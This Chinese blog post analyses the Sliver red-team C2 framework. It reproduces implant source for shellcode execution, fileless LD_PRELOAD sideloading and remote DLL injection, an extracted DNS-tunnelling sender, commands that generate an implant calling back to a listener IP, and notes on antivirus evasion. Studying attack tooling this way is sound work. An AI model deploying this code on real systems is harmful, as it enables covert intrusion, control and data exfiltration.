










Sliver 是一个基于Go的开源、跨平台的红队平台，可供各种规模的组织用于执行安全测试。 Sliver 的木马 支持 C2 over Mutual-TLS、HTTP(S) 和 DNS等协议。 implant可以时时编译生成，并会使用证书进行加密。
基于Go语言的特性，服务器和客户端以及implant都支持 MacOS、Windows 和 Linux。
Github地址:https://github.com/BishopFox/sliver tag:v1.4.22
go语言越来越流行，并且作为红队使用语言有很多优势。它十分简单，代码可以轻松编译为native代码到各类平台，跨平台开发非常容易。像py2exe和jar2exe，因为没有流行的软件，它们生成的工具很容易被杀毒针对，而golang编写的软件像docker等，让杀软无法直接查杀golang语言本身的特征，这更方便红队开发进行隐藏自己。
重要的是，已经有很多开源的，成熟的用于红队的代码，sliver就是其中之一。所以学习下sliver的代码，主要积累一些相关的go代码，学习基于go的C2是怎么做的，方便之后自己写C2。
本文将主要总结Sliver c2的功能原理、代码结构、以及对抗方面的内容。
使用&简介
sliver运行需要配置一些环境变量，如go、gcc，方便生成木马时候进行编译，在kali下运行十分简单，因为kali已经内置了这些变量，只需要在下载页面https://github.com/BishopFox/sliver/releases 下载最新的sliver-server_linux，解压后直接运行即可。

输入http -l 8888用于开启一个基于http 8888端口的C2

输入generate --http http://192.168.126.132:8888 生成一个基于http的c2木马。

它生成的时候默认会使用garble对implant源码进行一遍混淆，能够防止被分析。
sliver之前的版本使用的gobfuscate，在源码层面修改变量以及代码结构，速度比较慢，相比之下garble是对中间编译环节进行混淆结构，速度比较快也能混淆大部分符号等信息。
生成完毕后的exe被点击后

使用use [id]选择要控制的机器即可对它进行操控了。
代码简介
sliver的代码结构中有三大组件
-
implant
- 植入物，有点拗口，可以理解为“木马”
-
server
-
teamserver，也可以进行交互操作
-
client
-
多用户时可以使用的交互客户端
这三个组件即构成了Sliver的C2服务，server也实现了client的功能，client就是使用rpc调用server的功能，所以大部分情况下看server和implant就行了。
官方Readme上的一些Features 和它的实现方式。
- Dynamic code generation
- 动态代码生成，就是动态生成go源码然后编译
- Compile-time obfuscation
- 使用go-obf混淆生成的go代码
- Multiplayer-mode
- 支持多用户模式
-
Staged and Stageless payloads
- Staged 主要是调用msf来生成的payload
-
Procedurally generated C2-C2#under-the-hood) over HTTP(S)
-
http混淆协议
- Base64 Base64 with a custom alphabet so that it’s not interoperable with standard Base64
- Hex Standard hexadecimal encoding with ASCII characters
- Gzip Standard gzip
- English Encodes arbitrary data as English ASCII text
- PNG Encodes arbitrary data into valid PNG image files
- Gzip+English A combination of the Gzip and English encoders
- Base64+Gzip A combination of the Base64 and Gzip encoders
- [DNS canary] blue team detection
- 使用DNS诱饵域名 发现蓝队
- Secure C2 over mTLS, WireGuard, HTTP(S), and DNS
- C2通信支持的协议 mTLS, WireGuard, HTTP(S), DNS
- Fully scriptable using JavaScript/TypeScript or Python
- 支持使用JavaScript和Python编写脚本
- Local and remote process injection
- 本地和远程进程注入
- Windows process migration
- Windows user token manipulation
- Anti-anti-anti-forensics
- 对抗
- Let’s Encrypt integration
- Let’s Encrypt集成
- In-memory .NET assembly execution
Implant
implant是sliver c2的“木马”部分，也是整个c2的核心部分。sliver 的implant是支持跨平台的，三个平台功能的基本功能基本上都有，但每个平台的支持程度还是稍有差异。但是它对windows平台的功能显然更多一点。
sliver的提供了三种选项编译implant，编译成shellcode、编译成第三方库，和编译成exe。对于windows，还支持生成windows service、windows regsvr32/ PowerSploit类型的文件，后两种格式，其实就是一种含有特殊导出表的DLL。
编译成第三方库
能分别生成.dll、.dylib、.so文件，主要依赖cgo，要调用c语言编译器。所以想在server上多端生成，要下载各个平台的交叉编译器。
主要就是sliver.c实现的。
#include "sliver.h"
#ifdef __WIN32
DWORD WINAPI Enjoy()
{
RunSliver();
return 0;
}
BOOL WINAPI DllMain(
HINSTANCE _hinstDLL, // handle to DLL module
DWORD _fdwReason, // reason for calling function
LPVOID _lpReserved) // reserved
{
switch (_fdwReason)
{
case DLL_PROCESS_ATTACH:
// Initialize once for each new process.
// Return FALSE to fail DLL load.
{
// {{if .Config.IsSharedLib}}
HANDLE hThread = CreateThread(NULL, 0, Enjoy, NULL, 0, NULL);
// CreateThread() because otherwise DllMain() is highly likely to deadlock.
// {{end}}
}
break;
case DLL_PROCESS_DETACH:
// Perform any necessary cleanup.
break;
case DLL_THREAD_DETACH:
// Do thread-specific cleanup.
break;
case DLL_THREAD_ATTACH:
// Do thread-specific initialization.
break;
}
return TRUE; // Successful.
}
#elif __linux__
#include <stdlib.h>
void RunSliver();
static void init(int argc, char **argv, char **envp)
{
unsetenv("LD_PRELOAD");
unsetenv("LD_PARAMS");
RunSliver();
}
__attribute__((section(".init_array"), used)) static typeof(init) *init_p = init;
#elif __APPLE__
#include <stdlib.h>
void RunSliver();
__attribute__((constructor)) static void init(int argc, char **argv, char **envp)
{
unsetenv("DYLD_INSERT_LIBRARIES");
unsetenv("LD_PARAMS");
RunSliver();
}
#endif
windows在dllmain里面启动一个线程执行go函数，mac和linux直接再init上执行go函数。
编译成shellcode
只能在windows下使用，在server\generate\binaries.go
编译shellcode，首先编译成dll，然后会使用go-donut github.com/binject/go-donut/donut 进行转换为shellcode。
donut可以将任意的exe、dll、.net等等程序转换为shellcode，go-donut 是donut 的go实现，关于donut ，模仿cs开局一个shellcode的实现.md 有讲述相关原理。
功能
在大体看了implant代码后，我画了一张思维导图用来描述sliver c2 implant所具有的功能和技术。

功能详情
sideload
主要用于加载并执行库文件
Darwin
在本进程执行shellcode
func LocalTask(data []byte, rwxPages bool) error {
dataAddr := uintptr(unsafe.Pointer(&data[0]))
page := getPage(dataAddr)
syscall.Mprotect(page, syscall.PROT_READ|syscall.PROT_EXEC)
dataPtr := unsafe.Pointer(&data)
funcPtr := *(*func())(unsafe.Pointer(&dataPtr))
runtime.LockOSThread()
defer runtime.UnlockOSThread()
go func(fPtr func()) {
fPtr()
}(funcPtr)
return nil
}
sideload 这个会写出文件，将库文件写到tmp目录，指定环境变量DYLD_INSERT_LIBRARIES为文件路径
// Sideload - Side load a library and return its output
func Sideload(procName string, data []byte, args string, kill bool) (string, error) {
var (
stdOut bytes.Buffer
stdErr bytes.Buffer
wg sync.WaitGroup
)
fdPath := fmt.Sprintf("/tmp/.%s", randomString(10))
err := ioutil.WriteFile(fdPath, data, 0755)
if err != nil {
return "", err
}
env := os.Environ()
newEnv := []string{
fmt.Sprintf("LD_PARAMS=%s", args),
fmt.Sprintf("DYLD_INSERT_LIBRARIES=%s", fdPath),
}
env = append(env, newEnv...)
cmd := exec.Command(procName)
cmd.Env = env
cmd.Stdout = &stdOut
cmd.Stderr = &stdErr
//{{if .Config.Debug}}
log.Printf("Starting %s\n", cmd.String())
//{{end}}
wg.Add(1)
go startAndWait(cmd, &wg)
// Wait for process to terminate
wg.Wait()
// Cleanup
os.Remove(fdPath)
if len(stdErr.Bytes()) > 0 {
return "", fmt.Errorf(stdErr.String())
}
//{{if .Config.Debug}}
log.Printf("Done, stdout: %s\n", stdOut.String())
log.Printf("Done, stderr: %s\n", stdErr.String())
//{{end}}
return stdOut.String(), nil
}
linux
无文件落地、内存执行.so，原理是使用memfd_create，允许我们在内存中创建一个文件，但是它在内存中的存储并不会被映射到文件系统中,执行程序时候设置环境变量LD_PRELOAD，预加载so文件
// Sideload - Side load a library and return its output
func Sideload(procName string, data []byte, args string, kill bool) (string, error) {
var (
nrMemfdCreate int
stdOut bytes.Buffer
stdErr bytes.Buffer
wg sync.WaitGroup
)
memfdName := randomString(8)
memfd, err := syscall.BytePtrFromString(memfdName)
if err != nil {
//{{if .Config.Debug}}
log.Printf("Error during conversion: %s\n", err)
//{{end}}
return "", err
}
if runtime.GOARCH == "386" {
nrMemfdCreate = 356
} else {
nrMemfdCreate = 319
}
fd, _, _ := syscall.Syscall(uintptr(nrMemfdCreate), uintptr(unsafe.Pointer(memfd)), 1, 0)
pid := os.Getpid()
fdPath := fmt.Sprintf("/proc/%d/fd/%d", pid, fd)
err = ioutil.WriteFile(fdPath, data, 0755)
if err != nil {
//{{if .Config.Debug}}
log.Printf("Error writing file to memfd: %s\n", err)
//{{end}}
return "", err
}
//{{if .Config.Debug}}
log.Printf("Data written in %s\n", fdPath)
//{{end}}
env := os.Environ()
newEnv := []string{
fmt.Sprintf("LD_PARAMS=%s", args),
fmt.Sprintf("LD_PRELOAD=%s", fdPath),
}
env = append(env, newEnv...)
cmd := exec.Command(procName)
cmd.Env = env
cmd.Stdout = &stdOut
cmd.Stderr = &stdErr
//{{if .Config.Debug}}
log.Printf("Starging %s\n", cmd.String())
//{{end}}
wg.Add(1)
go startAndWait(cmd, &wg)
// Wait for process to terminate
wg.Wait()
if len(stdErr.Bytes()) > 0 {
return "", fmt.Errorf(stdErr.String())
}
//{{if .Config.Debug}}
log.Printf("Done, stdout: %s\n", stdOut.String())
log.Printf("Done, stderr: %s\n", stdErr.String())
//{{end}}
return stdOut.String(), nil
}
Windows
- 使用
DuplicateHandle,将句柄从一个进程复制到另一个进程 - 在目标进程创建内存并使用创建远程线程执行dll
func SpawnDll(procName string, data []byte, offset uint32, args string, kill bool) (string, error) {
var lpTargetHandle windows.Handle
err := refresh()
if err != nil {
return "", err
}
var stdoutBuff bytes.Buffer
var stderrBuff bytes.Buffer
// 1 - Start process
cmd, err := startProcess(procName, &stdoutBuff, &stderrBuff, true)
if err != nil {
return "", err
}
pid := cmd.Process.Pid
// {{if .Config.Debug}}
log.Printf("[*] %s started, pid = %d\n", procName, pid)
// {{end}}
handle, err := windows.OpenProcess(syscalls.PROCESS_DUP_HANDLE, true, uint32(pid))
if err != nil {
return "", err
}
currentProcHandle, err := windows.GetCurrentProcess()
if err != nil {
// {{if .Config.Debug}}
log.Println("GetCurrentProcess failed")
// {{end}}
return "", err
}
err = windows.DuplicateHandle(handle, currentProcHandle, currentProcHandle, &lpTargetHandle, 0, false, syscalls.DUPLICATE_SAME_ACCESS)
if err != nil {
// {{if .Config.Debug}}
log.Println("DuplicateHandle failed")
// {{end}}
return "", err
}
defer windows.CloseHandle(handle)
defer windows.CloseHandle(lpTargetHandle)
dataAddr, err := allocAndWrite(data, lpTargetHandle, uint32(len(data)))
argAddr := uintptr(0)
if len(args) > 0 {
//{{if .Config.Debug}}
log.Printf("Args: %s\n", args)
//{{end}}
argsArray := []byte(args)
argAddr, err = allocAndWrite(argsArray, lpTargetHandle, uint32(len(argsArray)))
if err != nil {
return "", err
}
}
//{{if .Config.Debug}}
log.Printf("[*] Args addr: 0x%08x\n", argAddr)
//{{end}}
startAddr := uintptr(dataAddr) + uintptr(offset)
threadHandle, err := protectAndExec(lpTargetHandle, dataAddr, startAddr, argAddr, uint32(len(data)))
if err != nil {
return "", err
}
// {{if .Config.Debug}}
log.Printf("[*] RemoteThread started. Waiting for execution to finish.\n")
// {{end}}
if kill {
err = waitForCompletion(threadHandle)
if err != nil {
return "", err
}
// {{if .Config.Debug}}
log.Printf("[*] Thread completed execution, attempting to kill remote process\n")
// {{end}}
cmd.Process.Kill()
return stdoutBuff.String() + stderrBuff.String(), nil
}
return "", nil
}
netstack
proxy
shell
注入技术
系统代理
通信流程
implant支持mtls、WireGuard、http/https、dns、namedpipe、tcp等协议的上线，namedpipe、tcp用于内网，加密程度不高，主要看看其他的。
HTTP/HTTPS
implant实现
implant在初始化时，会首先请求服务器获得一个公钥，再生成一个随机的AESKEY，用公钥加密后发送到服务器，服务器确认后返回一个sessionid表示注册，后续implant只需要通过发送sessionid到服务器，服务器即可根据sessionid找到对应的aeskey解密数据。
sliver的implant、client、server，所有通信的数据都是基于Go的struct，再经过proto3编码为字节发送。关于proto3，后面有介绍。
请求
- 随机编码器，通过随机数每次请求都会使用随机的编码器,在原aeskey的基础再次进行一次编码
- uri的参数
_用来标记编码器的数字
- uri的参数
- 通过cookie 标记sessionid
- 用
PHPSESSID来传递sessionid
- 用
implant在初始化完成获得sessionID后，接着会启动两个GoRoutine(可以粗糙的理解为两个线程)，一个用于发送，一个用于接收，它们都是监控一个变量，当一个变量获得值之后立马进行相应的操作（发送/接收）。
如果是其他语言实现类似操作的话可能要实现一个内存安全的队列，而在Go里面可以用自带的语法实现类似操作,既简单也明了。
go func() {
defer connection.Cleanup()
for envelope := range send {
data, _ := proto.Marshal(envelope)
log.Printf("[http] send envelope ...")
go client.Send(data)
}
}()
关于implant实现http/https协议具体细节，画了一张脑图。

HTTP/HTTPS server端一些有意思的点
- 伪时时回显
- cobalt strike有sleep的概念，是implant每次回连server的时间，因为这个概念，每次执行命令都会等待一段事件才能看到结果。
- sliver的http/https协议上线没有sleep的概念，每次发送完命令它立马就能返回结果。
- 原理是server接收到implant的请求后，如果当前没有任务，会卡住implant的请求(最长一分钟)，直至有任务出现。implant在timeout后也会再次请求，所以看到的效果就是发送的命令立马就能得到回显。
- 重放检测
- 防止蓝队对数据进行重放，implant的编码和加密多种多样，还有一定的随机值，理论上不可能会有内容一样包再次发送，sliver server会将每次的数据sha1编码的方式记录下来，如果蓝队对数据进行重放攻击，则会返回错误页面。
DNS
dns协议虽然隐蔽，但它的限制较多，实现起来会有诸多束缚。
根据https://zh.wikipedia.org/wiki/%E5%9F%9F%E5%90%8D%E7%B3%BB%E7%BB%9F dns域名限制为253字符
- 对每一级域名长度的限制是63个字符
- 一个DNS TXT 记录字符串最多可包含255 个字符
知道了以上限制就可以设计自己的DNS上线协议了。
sliver设计的协议是最终发送DNS的数据都会经过base32编码（会处理掉=），使用了自己的编码表
dnsCharSet = []rune("abcdefghijklmnopqrstuvwxyz0123456789_")
sliver设计的域名发送格式为
subdata.seq.nonce.sessionid.msgType.parentdomain
- subdata：表示发送的数据，最多3*63=189字节,subdata可能会有多个子域
- seq：表示这是数据的第几个
- nonce：一个10位字节的随机数,以防解析器忽略 TTL，以及后面防重放攻击的避免手段
- sessionid: sessionid标记当前implant
- msgType：表示执行的命令类型
- parentdomain: 自定义的域名
计算发送次数
- size := int(math.Ceil(float64(len(encoded)) / float64(dnsSendDomainStep)))
- dnsSendDomainStep = 189 #每一级域名长度的限制是63个字符,sliver取3个子域用于发送数据，最大可发送 63 * 3 = 189字节
但是最终数据都会经过Base 32 编码，所以 (n _8 + 4) /5 = 63,n=39，意味着每次请求最终可发送39_ 3 =117 个字节
subdata、seq、nonce由发送函数自动生成组装，sessionid、msgType、parentdomain 由用户控制。我将它DNS发送函数抽取了出来，可以自己模拟DNS发送的过程。
package main
import (
"bytes"
"encoding/base32"
"encoding/binary"
"fmt"
"log"
"math"
insecureRand "math/rand"
"strings"
)
const (
sessionIDSize = 16
dnsSendDomainSeg = 63
dnsSendDomainStep = 189 // 63 * 3
domainKeyMsg = "_domainkey"
blockReqMsg = "b"
clearBlockMsg = "cb"
sessionInitMsg = "si"
sessionPollingMsg = "sp"
sessionEnvelopeMsg = "se"
nonceStdSize = 6
blockIDSize = 6
maxBlocksPerTXT = 200 // How many blocks to put into a TXT resp at a time
)
var dnsCharSet = []rune("abcdefghijklmnopqrstuvwxyz0123456789_")
var base32Alphabet = "ab1c2d3e4f5g6h7j8k9m0npqrtuvwxyz"
var sliverBase32 = base32.NewEncoding(base32Alphabet)
func dnsEncodeToString(input []byte) string {
encoded := sliverBase32.EncodeToString(input)
// {{if .Config.Debug}}
log.Printf("[base32] %#v", encoded)
// {{end}}
return strings.TrimRight(encoded, "=")
}
// dnsNonce - Generate a nonce of a given size in case the resolver ignores the TTL
func dnsNonce(size int) string {
nonce := []rune{}
for i := 0; i < size; i++ {
index := insecureRand.Intn(len(dnsCharSet))
nonce = append(nonce, dnsCharSet[index])
}
return string(nonce)
}
func dnsDomainSeq(seq int) []byte {
buf := new(bytes.Buffer)
binary.Write(buf, binary.LittleEndian, uint32(seq))
return buf.Bytes()
}
// Send raw bytes of an arbitrary length to the server
func dnsSend(parentDomain string, msgType string, sessionID string, data []byte) {
encoded := dnsEncodeToString(data)
size := int(math.Ceil(float64(len(encoded)) / float64(dnsSendDomainStep)))
// {{if .Config.Debug}}
log.Printf("Encoded message length is: %d (size = %d)", len(encoded), size)
// {{end}}
nonce := dnsNonce(10) // Larger nonce for this use case
// DNS domains are limited to 254 characters including '.' so that means
// Base 32 encoding, so (n*8 + 4) / 5 = 63 means we can encode 39 bytes
// So we have 63 * 3 = 189 (+ 3x '.') + metadata
// So we can send up to (3 * 39) 117 bytes encoded as 3x 63 character subdomains
// We have a 4 byte uint32 seqence number, max msg size (2**32) * 117 = 502511173632
//
// Format: (subdata...).(seq).(nonce).(session id).(_)(msgType).<parent domain>
// [63].[63].[63].[4].[20].[12].[3].
// ... ~235 chars ...
// Max parent domain: ~20 chars
//
for index := 0; index < size; index++ {
// {{if .Config.Debug}}
log.Printf("Sending domain #%d of %d", index+1, size)
// {{end}}
start := index * dnsSendDomainStep
stop := start + dnsSendDomainStep
if len(encoded) <= stop {
stop = len(encoded)
}
// {{if .Config.Debug}}
log.Printf("Send data[%d:%d] %d bytes", start, stop, len(encoded[start:stop]))
// {{end}}
data := encoded[start:stop] // Total data we're about to send
subdomains := int(math.Ceil(float64(len(data)) / dnsSendDomainSeg))
// {{if .Config.Debug}}
log.Printf("Subdata subdomains: %d", subdomains)
// {{end}}
subdata := []string{} // Break up into at most 3 subdomains (189)
for dataIndex := 0; dataIndex < subdomains; dataIndex++ {
dataStart := dataIndex * dnsSendDomainSeg
dataStop := dataStart + dnsSendDomainSeg
if len(data) < dataStop {
dataStop = len(data)
}
// {{if .Config.Debug}}
log.Printf("Subdata #%d [%d:%d]: %#v", dataIndex, dataStart, dataStop, data[dataStart:dataStop])
// {{end}}
subdata = append(subdata, data[dataStart:dataStop])
}
// {{if .Config.Debug}}
log.Printf("Encoded subdata: %#v", subdata)
// {{end}}
subdomain := strings.Join(subdata, ".")
seq := dnsEncodeToString(dnsDomainSeq(index))
domain := subdomain + fmt.Sprintf(".%s.%s.%s.%s.%s", seq, nonce, sessionID, msgType, parentDomain)
log.Println("dnsLookup", domain)
//_, err := dnsLookup(domain)
//if err != nil {
// return "", err
//}
}
// A domain with "_" before the msgType means we're doing sending data
domain := fmt.Sprintf("%s.%s.%s.%s", nonce, sessionID, "_"+msgType, parentDomain)
log.Println("dnsLookup and recv", domain)
}
func main() {
parentDomain := "360.cn"
msgType := "si" //sessionInitMsg
sessionID := "_"
var data = []byte("texttexttexttexttexttexttexttexttexttexttexttext")
dnsSend(parentDomain, msgType, sessionID, data)
}
DNS C2上线协议部分总结了一下脑图

防止重放攻击
DNS Canary发现
除了server端的重放检测，向implant内置一个诱饵dns，也是一个检查暴露的方法。如果有人访问这个地址，说明implant已经暴露了。
dns canary域名生成
server\generate\canaries.go
会随机生成一个子域名，存储在数据库，存储的内容

server端启动dns服务后，会查看DNS的信息，如果是数据库中存在的canary dns，则会更新这个dns的信息(更新触发时间，触发次数，是否第一次触发)，然后向控制端广播。

最后向请求者返回一个随机IP。
编码协议
- client 操作 teamserver,是通过grpc + mtls双向加密进行
具体协议的内容在源代码的protobuf\README.md
因为使用了grpc，它使用的协议是Google的proto3。
Protocol Buffer (简称Protobuf) 是Google出品的性能优异、跨语言、跨平台的序列化库。
在protobuf目录下，一些协议的说明
Protobuf
==========
*`commonpb` -`clientpb` 和 `sliverpb` 之间共享的通用消息。值得注意的是通用的“Request”和“Response”类型，它们在 gRPC 请求/响应中用作标头。
*`clientpb` -这些消息 只从客户端发送到服务器。
*`sliverpb` -这些消息可以从客户端发送到服务器或从服务器发送到植入物，反之亦然。并非此文件中定义的所有消息都会出现在客户端<->服务器通信中，有些是特定于植入<->服务器的。
*`rpcpb` -gRPC 服务定义
查看client的协议源文件clientpb，就可以看到木马会发送哪些字段了
syntax = "proto3";
package clientpb;
option go_package = "github.com/bishopfox/sliver/protobuf/clientpb";
import "commonpb/common.proto";
// [ Version ] ----------------------------------------
message Version {
int32 Major = 1;
int32 Minor = 2;
int32 Patch = 3;
string Commit = 4;
bool Dirty = 5;
int64 CompiledAt = 6;
string OS = 7;
string Arch = 8;
}
// [ Core ] ----------------------------------------
message Session {
uint32 ID = 1;
string Name = 2;
string Hostname = 3;
string UUID = 4;
string Username = 5;
string UID = 6;
string GID = 7;
string OS = 8;
string Arch = 9;
string Transport = 10;
string RemoteAddress = 11;
int32 PID = 12;
string Filename = 13; // Argv[0]
string LastCheckin = 14;
string ActiveC2 = 15;
string Version = 16;
bool Evasion = 17;
bool IsDead = 18;
uint32 ReconnectInterval = 19;
string ProxyURL = 20;
}
message ImplantC2 {
uint32 Priority = 1;
string URL = 2;
string Options = 3; // Protocol specific options
}
message ImplantConfig {
string GOOS = 1;
string GOARCH = 2;
string Name = 3;
string CACert = 4;
string Cert = 5;
string Key = 6;
bool Debug = 7;
bool Evasion = 31;
bool ObfuscateSymbols = 30;
uint32 ReconnectInterval = 8;
uint32 MaxConnectionErrors = 9;
// c2
repeated ImplantC2 C2 = 10;
repeated string CanaryDomains = 11;
bool LimitDomainJoined = 20;
string LimitDatetime = 21;
string LimitHostname = 22;
string LimitUsername = 23;
string LimitFileExists = 32;
enum OutputFormat {
SHARED_LIB = 0;
SHELLCODE = 1;
EXECUTABLE = 2;
SERVICE = 3;
}
OutputFormat Format = 25;
bool IsSharedLib = 26;
string FileName = 27;
bool IsService = 28;
bool IsShellcode = 29;
}
// Configs of previously built implants
message ImplantBuilds {
map<string, ImplantConfig> Configs = 1;
}
message DeleteReq {
string Name = 1;
}
// DNSCanary - Single canary and metadata
message DNSCanary {
string ImplantName = 1;
string Domain = 2;
bool Triggered = 3;
string FirstTriggered = 4;
string LatestTrigger = 5;
uint32 Count = 6;
}
message Canaries {
repeated DNSCanary Canaries = 1;
}
message ImplantProfile {
string Name = 1;
ImplantConfig Config = 2;
}
message ImplantProfiles {
